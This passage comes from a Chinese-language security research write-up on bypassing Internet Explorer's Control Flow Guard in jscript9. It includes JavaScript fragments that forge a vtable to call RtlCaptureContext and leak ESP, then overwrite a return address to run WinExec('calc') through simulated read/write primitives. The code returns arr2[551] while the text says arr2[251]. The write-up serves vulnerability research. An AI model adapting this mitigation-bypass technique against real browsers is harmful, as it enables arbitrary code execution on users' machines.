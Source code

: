 ```

return arr2[551];

`}`
```

该函数除了使用rDword函数等已封装的读写原语，还使用arr1、arr2进行了更复杂的内存读写操作。代码逻辑如下：
- 复制Int32Array函数的虚表到arr2的内存空间作为伪造的虚表；
- 将伪造的虚表中偏移0x7c的虚函数指针修改为API RtlCaptureContext的入口地址；
- 修改arr2对象的虚表指针，使其指向arr2内存空间中伪造的虚表；
- 赋值temp为arr2空间的后半部分的任一地址，作为RtlCaptureContext函数的参数；
- “temp in arr2″调用虚表偏移0x7c的虚函数Js::TypedArrayBase::HasItem【2】，但由于虚函数指针已被改写，实际调用的是RtlCaptureContext；
- 返回arr2[251]，该值由RtlCaptureContext写入，内容为函数入口时ESP寄存器的值。
函数返回获得的ESP寄存器的值可认为是某一时刻栈顶的值，增加一定偏移后可以寻址到其他函数的栈帧。

3.3.2 覆写返回地址

覆写返回地址的代码如下：

```
function apiCallExec(apiWinExec, esp)`{`

Math.atan(1);

ret = esp + 0x244;

divOutput3.innerText +="\n&gt; Overwrite return address "

+format(ret.toString(16), 8)+" : "+format(rDword(ret).toString(16),8)+".";

wDword(ret+0x14, 0);

wDword(ret+0x10, 0x636c6163);

wDword(ret+0x0c, 5);

wDword(ret+0x08, ret+0x10);

wDword(ret+0x04, 0xdeadbeaf);

wDword(ret+0x00, apiWinExec);

divOutput3.innerText += "\n&gt; Executing WinExec(\"calc\").";

alert("should have calc.exe.");

`}`
```

该函数将上一步骤获得的ESP寄存器的值加上适当偏移，使其恰好为某函数栈帧的返回地址。调试发现，偏移为0x244时可以覆写到适当的位置。在实际中也可以根据前一步骤得到的jscript9.dll代码段的范围进行搜索，来决定覆写的位置。最后，使用读写原语布置伪造的栈帧内容以劫持程序流程。如图2所示，模拟的攻击代码最终成功执行了WinExec(“calc”)<a name="_Toc483230475"></a><a name="_Toc483230153"></a>：

图2 成功执行Windows Calculator的截图

实验通过模拟的读写原语绕过了IE的缓解技术，具有代码执行能力。



## 四、参考资料

【1】Abusing Silent mitigations. Abdul-Aziz Hariri, Simon Zuckerbraum, Brian Gorenc

【2】https://improsec.com/blog/bypassing-control-flow-guard-in-windows-10

